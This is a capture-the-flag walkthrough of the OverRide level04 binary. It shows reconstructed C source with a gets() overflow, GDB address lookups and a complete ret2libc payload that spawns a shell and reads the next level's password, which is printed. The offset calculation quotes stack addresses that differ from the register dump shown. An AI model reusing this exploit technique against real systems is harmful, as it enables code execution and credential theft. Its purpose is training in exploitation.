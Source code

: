 # Level04

## Answer
Our C source code generates an assembly code similar to the original binary. Compile it as follows:
> There are some differences in the assembly code pointed out in the comments, they do impact the behavior of the program.
```
gcc -m32 -z execstack -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <signal.h>
#include <sys/ptrace.h>

void clear_stdin()
{
    unsigned char var = 0; // -0x9(%ebp)
    while (1)
    {
        var = getchar();
        if (var == '\n' || var == 0xff)
            break;
    }
}

unsigned int get_unum()
{
    unsigned int var1 = 0; // -0xc(%ebp)

    fflush(stdout);
    scanf("%u", &var1);
    clear_stdin();
    return var1;
}

void prog_timeout()
{
    exit(1); // Supposed to be a system call but cannot reproduce
}

void enable_timeout_cons()
{
    signal(SIGALRM, prog_timeout);
    alarm(60);
}
// any above functions are useless

// slight differences in assembly with stack variables alignment and optimization
int main()
{
    pid_t pid = fork(); // 0xac(%esp)
    char buff[128] = { 0 };  // 0x20(%esp)

    int ptrace_data = 0; // 0xa8(%esp)
    int stat_loc = 0;    // 0x1c(%esp)
    int backup;      // 0xa4(%esp)

    if (pid == 0)
    {
        prctl(1, 1);
        ptrace(PTRACE_TRACEME, 0, 0, 0);
        puts("Give me some shellcode, k");
        gets(buff);
    }
    else
    {
        do
        {
            wait(&stat_loc);
            backup = stat_loc;

            if (WIFEXITED(stat_loc) || WIFSIGNALED(stat_loc))
            {
                puts("child is exiting...");
                return 0;
            }

            ptrace_data = ptrace(PTRACE_PEEKUSER, pid, 44, 0);
        } while (ptrace_data != 11);

        puts("no exec() for you");
        kill(pid, 9);
    }
    return 0;
}
```

Let's focus on the `main` function.  It reads input using the `gets` function, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes read. This will allow us to overflow the buffer and overwrite the return address of the `main` function.

### Ret2Libc
Check the [level01's walkthrough](../level01/walkthrough.md#ret2libc) for an explanation of the ret2libc technique.

We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0xf7e6aed0  system
[...]

# Exit
(gdb) info function exit
0xf7e5eb70  exit
[...]

# /bin/sh
(gdb) info proc mappings
[...]
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
[...]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

To find our padding, Let's analyze the stack layout of our program:
```bash
(gdb) set follow-fork-mode child # Follow the child process

(gdb) b *main+150 # Breaking after gets
Breakpoint 1 at 0x804875e

(gdb) b *main+168 # Breaking after wait
Breakpoint 2 at 0x8048770

(gdb) r # Run the program
Starting program: /home/users/level04/level04
[New process 2910]
Give me some shellcode, k
[Switching to process 2910]

Breakpoint 1, 0x0804875e in main ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xffffd650       0xffffd650
ebp            0xffffd708       0xffffd708
[...]
```

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 184 bytes:
```
0xbffff728 - 0xbffff6e0 = b8 (184 in decimal)
```	

Furthermore, we can see that our buffer is located at `0x20(%esp),%eax`. Since there is 184 bytes for the stack, our buffer will therefore require 152 bytes (184 - 32) before reaching `ebp`.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 156 bytes (152 + 4).

Anything written beyond those 156 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

Alright, let's craft our payload:
```
reminder: padding + address of system + address of exit + address of "/bin/sh"

"\x90"*156 + "\xf7\xe6\xae\xd0" + "\xf7\xe5\xeb\x70" + "\xf7\xf8\x97\xec"
```

Let's run it:
```bash
level04@OverRide:~$ (python -c 'print("\x90"*156 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1])' && echo cat /home/users/level05/.pass) | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

We are now level05! Let's move on to the next level.